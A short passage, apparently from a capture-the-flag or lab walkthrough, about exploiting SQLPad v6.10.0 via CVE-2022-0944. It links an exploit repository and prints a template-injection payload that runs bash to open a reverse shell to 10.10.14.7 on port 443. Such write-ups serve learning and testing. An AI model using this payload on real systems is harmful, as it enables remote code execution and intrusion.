 ![nc_test_3306](screenshots/nc_test_3306.png)  

The connection is received, confirming injection.  
We found an exploit for **SQLPad v6.10.0 (CVE-2022-0944)**:  

```bash
https://github.com/0xDTC/SQLPad-6.10.0-Exploit-CVE-2022-0944
```

Payload:

```bash
{{process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.7/443 0>&1"')}}
```
